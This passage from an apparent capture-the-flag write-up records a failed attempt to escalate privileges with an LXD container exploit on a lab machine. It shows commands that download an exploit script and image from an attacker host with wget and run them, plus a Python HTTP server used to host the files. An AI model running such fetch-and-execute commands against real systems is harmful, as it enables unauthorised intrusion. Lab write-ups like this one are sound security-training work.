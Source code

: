 > **Victime Machine**:

```bash
cd /dev/shm
wget 10.10.14.15/lxd_exploit.sh
chmod +x lxd_exploit.sh
wget 10.10.14.15/alpine-v3.19-x86_64-20231226_1430.tar.gz

./lxd_exploit.sh -f alpine-v3.19-x86_64-20231226_1430.tar.gz
# :( :(
```

<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_32.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_33.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I even try to convert the script to **Unix* format with `dos2unix` and transfer it back to the victim machine, but it still doesn't work. Maybe it's problems in the directory I chose to host the exploit, but if I go to another one that wouldn't present that problem, **tmp**, it doesn't work either. I will look for another attack vector.

> **Attacker Machine**:

```bash
dos2unix lxd_exploit.sh
python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget 10.10.14.15/lxd_exploit.sh
chmod +x lxd_exploit.sh

./lxd_exploit.sh -f alpine-v3.19-x86_64-20231226_1430.tar.gz        # :(

cd /tmp
./lxd_exploit.sh -f alpine-v3.19-x86_64-20231226_1430.tar.gz        # :(
```

<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
